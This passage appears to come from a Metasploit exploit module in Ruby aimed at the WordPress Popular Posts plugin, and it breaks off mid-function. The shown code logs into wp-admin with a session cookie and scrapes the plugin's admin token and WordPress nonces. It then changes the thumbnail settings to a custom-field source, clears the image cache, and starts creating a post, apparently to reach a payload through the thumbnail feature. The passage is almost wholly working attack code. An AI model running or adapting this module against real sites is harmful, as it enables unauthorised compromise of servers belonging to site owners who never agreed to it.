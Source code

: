 == 200     res.body.include? ' gd'   end    def get_wpp_admin_token(cookie)     vprint_status('Retrieving wpp_admin token')     res = send_request_cgi(       'uri' => normalize_uri(target_uri.path, 'wp-admin', 'options-general.php'),       'method' => 'GET',       'cookie' => cookie,       'keep_cookies' => 'true',       'vars_get' => {         'page' => 'wordpress-popular-posts',         'tab' => 'tools'       }     )     fail_with(Failure::Unreachable, 'Site not responding') unless res     fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 200     /&lt;input type="hidden" id="wpp-admin-token" name="wpp-admin-token" value="([^"]*)/ =~ res.body     Regexp.last_match(1)   end    def change_settings(cookie, token)     vprint_status('Updating popular posts settings for images')     res = send_request_cgi(       'uri' => normalize_uri(target_uri.path, 'wp-admin', 'options-general.php'),       'method' => 'POST',       'cookie' => cookie,       'keep_cookies' => 'true',       'vars_get' => {         'page' => 'wordpress-popular-posts',         'tab' => 'debug'       },       'vars_post' => {         'upload_thumb_src' => '',         'thumb_source' => 'custom_field',         'thumb_lazy_load' => 0,         'thumb_field' => 'wpp_thumbnail',         'thumb_field_resize' => 1,         'section' => 'thumb',         'wpp-admin-token' => token       }     )     fail_with(Failure::Unreachable, 'Site not responding') unless res     fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 200     fail_with(Failure::UnexpectedReply, 'Unable to save/change settings') unless /&lt;strong>Settings saved/ =~ res.body   end    def clear_cache(cookie, token)     vprint_status('Clearing image cache')     res = send_request_cgi(       'uri' => normalize_uri(target_uri.path, 'wp-admin', 'options-general.php'),       'method' => 'POST',       'cookie' => cookie,       'keep_cookies' => 'true',       'vars_get' => {         'page' => 'wordpress-popular-posts',         'tab' => 'debug'       },       'vars_post' => {         'action' => 'wpp_clear_thumbnail',         'wpp-admin-token' => token       }     )     fail_with(Failure::Unreachable, 'Site not responding') unless res     fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 200   end    def enable_custom_fields(cookie, custom_nonce, post)     # this should enable the ajax_nonce, it will 302 us back to the referer page as well so we can get it.     res = send_request_cgi!(       'uri' => normalize_uri(target_uri.path, 'wp-admin', 'post.php'),       'cookie' => cookie,       'keep_cookies' => 'true',       'method' => 'POST',       'vars_post' => {         'toggle-custom-fields-nonce' => custom_nonce,         '_wp_http_referer' => "#{normalize_uri(target_uri.path, 'wp-admin', 'post.php')}?post=#{post}&amp;action=edit",         'action' => 'toggle-custom-fields'       }     )     /name="_ajax_nonce-add-meta" value="([^"]*)/ =~ res.body     Regexp.last_match(1)   end    def create_post(cookie)     vprint_status('Creating new post')     # get post ID and nonces     res = send_request_cgi(       'uri' => normalize_uri(target_uri.path, 'wp-admin', 'post-new.php'),       'cookie' => cookie,       'keep_cookies' => 'true'     )     fail_with(Failure::Unreachable, 'Site not responding') unless res     fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 200     /name="_ajax_nonce-add-meta" value="(?&lt;ajax_nonce>[^"]*)/ =~ res.body     /wp.apiFetch.nonceMiddleware = wp.apiFetch.createNonceMiddleware\( "(?&lt;wp_nonce>[^"]*)/ =~ res.body